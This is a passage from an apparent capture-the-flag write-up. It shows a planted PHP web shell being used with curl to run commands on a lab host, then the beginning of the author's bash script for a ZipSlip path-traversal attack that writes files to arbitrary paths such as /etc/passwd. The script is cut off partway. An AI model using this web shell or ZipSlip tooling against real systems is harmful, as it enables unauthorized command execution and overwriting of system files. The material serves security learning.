     

Now I’ll upload it to the site, and check, and my page is there on the port 80
site:

    
    
    root@kali# curl http://10.10.10.101/cmd.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Script

I wrote a script to perform ZipSlip for me:

    
    
    #!/bin/bash
    
    function usage {
        echo "Usage: $0 [out_zip] [file] [desired path] <number of ../>"
        echo "  Number of ../ will be 8 if not given"
        echo "  desired path must be absolute"
        echo "  Ex: $0 evil.zip evil_passwd /etc/passwd 5"
        echo -e "\n$message"
        exit 1
    }
    
    if [ "$#" -lt 3 -o "$#" -gt 4 ]; then
        usage
    fi;
    
    if [ ! -r $2 ]; then
        message="$2 does not exist. Please check path to file."
        usage
    fi;
    
    if [[ ! $3 == /* ]]; then
        message="[desired path] must be absolute, starting with /"
        usage
    fi;
    
    # Set variables
    outfile=$(realpath $1)
    file=$2
    path=$3
    
    if [ "$#" -eq 3 ]; then
        num_ups=8;
    else
        num_ups=$4
    fi;
    num_dirs=$(($num_ups - $(echo $path | tr -cd '/' | wc -c) + 1))
    
    
    base=$(mktemp -d)
    target_dir=$(dirname $path)
    current_dir=${base}${target_dir}$(yes "/a" | head -${num_dirs} | tr -d "\n")
    